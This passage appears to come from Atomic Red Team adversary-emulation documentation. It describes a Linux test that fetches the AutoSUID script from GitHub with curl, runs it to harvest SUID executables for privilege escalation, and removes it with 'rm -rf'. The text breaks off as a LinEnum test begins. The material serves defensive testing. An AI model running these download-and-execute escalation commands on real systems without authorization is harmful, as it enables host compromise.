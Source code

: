 ## Atomic Test #3 - Harvest SUID executable files

AutoSUID application is the Open-Source project, the main idea of which is to automate harvesting the SUID executable files and to find a way for further escalating the privileges.

**Supported Platforms:** Linux

**auto_generated_guid:** 46274fc6-08a7-4956-861b-24cbbaa0503c

#### Inputs:

| Name         | Description                            | Type | Default Value                                                           |
| ------------ | -------------------------------------- | ---- | ----------------------------------------------------------------------- |
| autosuid     | Path to the autosuid shell script      | path | PathToAtomicsFolder/T1059.004/src/AutoSUID.sh                           |
| autosuid_url | Path to download autosuid shell script | url  | https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/main/AutoSUID.sh |

#### Attack Commands: Run with `sh`!

```sh
chmod +x #{autosuid}
bash #{autosuid}
```

#### Cleanup Commands:

```sh
rm -rf #{autosuid}
```

#### Dependencies: Run with `bash`!

##### Description: AutoSUID must exist on disk at specified location (#{autosuid})

##### Check Prereq Commands:

```bash
if [ -f #{autosuid} ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
curl --create-dirs #{autosuid_url} --output #{autosuid}
```

<br/>
<br/>

## Atomic Test #4 - LinEnum tool execution

LinEnum is a bash script that performs discovery commands for accounts,processes, kernel version, applications, services, and uses the information from these commands to present operator with ways of escalating privileges or further exploitation of targeted host.
